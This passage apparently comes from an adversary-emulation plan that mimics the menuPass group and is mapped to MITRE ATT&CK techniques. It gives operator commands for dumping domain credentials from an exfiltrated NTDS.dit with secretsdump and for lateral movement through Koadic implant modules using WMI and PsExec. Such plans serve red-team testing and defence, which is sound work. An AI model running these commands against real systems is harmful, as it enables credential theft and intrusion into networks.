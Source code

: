 #### Dumping Credentials Locally
After copying and exfiltrating the NTDS.dit file, you will use Impacket's secretsdump to dump credentials locally.

```cmd
secretsdump.exe -system #{system_hive_local_path\SYSTEM} -security #{security_hive_local_path\SECURITY} -ntds #{ntds_local_path\ntds.dit} local
```

## Step 6 - menuPass Lateral Movement

#### 6.A - Windows Management Instrumentation ([T1047](https://attack.mitre.org/T1047/))

```cmd
(koadic: sta/js/mshta)# use implant/pivot/stage_wmi
(koadic: implant/piv/stage_wmi)# set rhost #{remote_host}
(koadic: implant/piv/stage_wmi)# set smbuser #{user_name}
(koadic: implant/piv/stage_wmi)# set smbpass #{password}
(koadic: implant/piv/stage_wmi)# set smbdomain #{domain}
(koadic: implant/piv/stage_wmi)# set payload #{payload_id}
(koadic: implant/piv/stage_wmi)# set zombie #{zombie_id}
(koadic: implant/piv/stage_wmi)# run

```

#### Alternative Procedure

### System Services: Service Execution ([T1569.002](https://attack.mitre.org/techniques/T1569/002))

Upload PsExec to the host

```cmd
(koadic: sta/js/mshta)# use implant/utils/upload_file
(koadic: imp/uti/upload_file)# set lfile #{local_file_to_upload}
(koadic: imp/uti/upload_file)# set zombie #{zombie_id}
(koadic: imp/uti/upload_file)# run
```

PsExec to remote host

```cmd
(koadic: sta/js/mshta)# use implant/pivot/exec_psexec
(koadic: implant/piv/exec-psexec)# set cmd #{command_to_run}
(koadic: implant/piv/exec-psexec)# set rhost #{remote_host}
(koadic: implant/piv/exec-psexec)# set smbuser #{user_name}
(koadic: implant/piv/exec-psexec)# set smbpass #{password}
(koadic: implant/piv/exec-psexec)# set credid #{credential_ip}
(koadic: implant/piv/exec-psexec)# set rpath #{remote_path_to_psexec}
(koadic: implant/piv/exec-psexec)# set zombie #{zombie_id}
(koadic: implant/piv/exec-psexec)# run
```

## Step 7 - menuPass Exfiltration
